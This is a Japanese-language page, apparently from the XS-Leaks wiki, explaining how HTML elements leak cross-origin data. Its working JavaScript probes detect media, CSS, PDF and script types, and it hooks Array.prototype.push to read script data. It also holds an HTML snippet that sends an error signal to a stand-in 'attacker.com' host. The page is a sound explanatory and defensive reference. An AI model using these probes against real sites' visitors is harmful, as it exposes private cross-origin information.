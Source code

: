 +++
title = "Element leaks"
description = ""
category = "Attack"
abuse = [
    "HTMLElement",
]
defenses = [
    "SameSite Cookies"
]
menu = "main"
weight = 2
+++

一部のHTML要素は、クロスオリジンのページにデータの一部をリークさせるために使用される可能性があります。 
たとえば、以下のようなメディアリソースは、サイズ、期間、種類に関する情報をリークさせる可能性があります。

- [HTMLMediaElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLMediaElement)は、メディアの`duration`と`buffered`の時間をリークします。
- [HTMLVideoElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLVideoElement) は`videoHeight`と`videoWidth`をリークします。一部のブラウザでは、`webkitVideoDecodedByteCount`、 `webkitAudioDecodedByteCount`、`webkitDecodedFrameCount`も含む可能性があります
- [getVideoPlaybackQuality()](https://developer.mozilla.org/en-US/docs/Web/API/VideoPlaybackQuality)は`totalVideoFrames`をリークします。
- [HTMLImageElement]（https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement）は`height`と`width`をリークしますが、画像が無効な場合には、それらは0となり、[`image.decode()`](https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement/decode)は拒否されます。

メディアタイプの固有のプロパティによって、メディアタイプを区別することができます。
たとえば、`<video>`の場合は`videoWidth`、`<audio>`の場合は`duration`といった具合です。 
以下のコードは、リソースの種類を返すサンプルコードを示しています。

```javascript
async function getType(url) {
    // リソースがaudioもしくはvideoかどうかを検知
    let media = document.createElement("video");
    media.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (media.videoWidth) {
    return "video";
    } else if (media.duration) {
    return "audio"
    }
    // リソースがimageかどうかを検知
    let image = new Image();
    image.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (image.width) return "image";
}
```

## CORBの悪用

[CORB]({{< ref "/docs/attacks/browser-features/corb.md" >}}) は、間違ったコンテンツタイプが使用された場合にレスポンスを空にするChromeの機能です。
これは、コンテンツタイプが間違っている場合、キャッシュされないことを意味します。
 `ifCached` 関数については[Cache Probing]({{< ref "/docs/attacks/cache-probing.md" >}})の記事にて確認できます。

```javascript
async function isType(url, type = "script") {
  let error = false;
  // urlをパージする
  await ifCached(url, true);
  // リソースの読み込みを試行
  let e = document.createElement(type);
  e.onerror = () => error = true;
  e.src = url;
  document.head.appendChild(e);
  // CORBで許可されていれば、キャッシュされるのを待つ
  await new Promise(resolve => setTimeout(resolve, 500));
  // クリーンアップ
  document.head.removeChild(e);
  // ブロックされた"images"の修正
  if (error) return false
  return ifCached(url);
}
```

[getComputedStyle](https://developer.mozilla.org/en-US/docs/Web/API/Window/getComputedStyle)は、現在のページに埋め込まれたCSSスタイルシートを読み取るために使用することができます。
これは異なるオリジンから読み込まれたものも含みます。
この関数は、ボディに適用されたスタイルがあるかどうかをチェックするだけのものです。

```javascript
async function isCSS(url) {
    let link = document.createElement('link');
    link.rel = 'stylesheet';
    link.type = 'text/css';
    link.href = url;
    let style1 = JSON.stringify(getComputedStyle(document.body));
    document.head.appendChild(link);
    await new Promise(resolve => setTimeout(resolve, 500));
    let style2 = JSON.stringify(getComputedStyle(document.body));
    document.head.removeChild(link);
    return (style1 !== style2);
}
```

## PDF
 [Open URL Parameters](https://bugs.chromium.org/p/chromium/issues/detail?id=64309#c113)には、`zoom`, `view`, `page`, `toolbar` などのコンテンツを制御することができるものが用意されています。 
chromeの場合、内部で`embed`を使用しているため、[frame counting]({{< ref "/docs/attacks/frame-counting.md" >}})でPDFを検出することが可能です。

```javascript
async function isPDF(url) {
    let w = open(url);
    await new Promise(resolve => setTimeout(resolve, 500));
    let result = (w.length === 1);
    w.close();
    return result;
}
```

{{< hint warning  >}} } ページに他の埋め込みがある場合、誤検知が発生します。 {{< /hint >}}

## スクリプトタグ
クロスオリジンのスクリプトがページに含まれる場合、その内容を直接読み取ることはできません。
しかし、スクリプトが組み込み関数を使用している場合には、関数を上書きすることでその引数を読むことができるため、機密情報をリークする可能性があります[^script-leaks]。

```javascript
let hook = window.Array.prototype.push;
window.Array.prototype.push = function() {
    console.log(this);
    return hook.apply(this, arguments);
}
```

## Javascriptが使用できない場合

JavaScriptが無効な場合でも、クロスオリジンのリソースに関するいくつかの情報が漏えいする可能性があります。
例えば、`<object>` を利用して、リソースがエラーコードで応答するかどうかを検出することができます。
リソース`//example.org/resource`が`<object data=//example.org/resource>fallback</object>`でエラーを返した場合、`fallback`がレンダリングされます[^fallback] [^leaky-images]。
内部に別の`<object>`を挿入して情報を外部サーバーにリークしたり、CSS[^xsleaks-nojs]で検出したりすることができます。
以下のコードは `//example.org/404` を埋め込み、それが *Error* で応答した場合、 フォールバックとして`//attacker.com/?error` へのリクエストも行われます。

```html
<object data="//example.com/404">
  <object data="//attacker.com/?error"></object>
</object>
```

## 対策

| Attack Alternative | [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                           |
| :----------------: | :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------: |
| Type leaks |                                         ✔️                                         |                         ❌                          |                                ❌                                 | [RIP]({{< ref "/docs/defenses/isolation-policies/resource-isolation" >}}) 🔗 [NIP]({{< ref "/docs/defenses/isolation-policies/navigation-isolation" >}}) |

## 参考文献
[^script-leaks]: The Unexpected Dangers of Dynamic JavaScript. [link](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf)   
[^fallback]: HTML Standard, [3.2.5.2.6 Embedded content], [link](https://html.spec.whatwg.org/multipage/dom.html#fallback-content)  
[^leaky-images]: Leaky Images: Targeted Privacy Attacks in the Web, [3.4 Linking User Identities], [link](https://www.usenix.org/system/files/sec19fall_staicu_prepub.pdf)  
[^xsleaks-nojs]: [https://twitter.com/terjanq/status/1180477124861407234](https://twitter.com/terjanq/status/1180477124861407234)  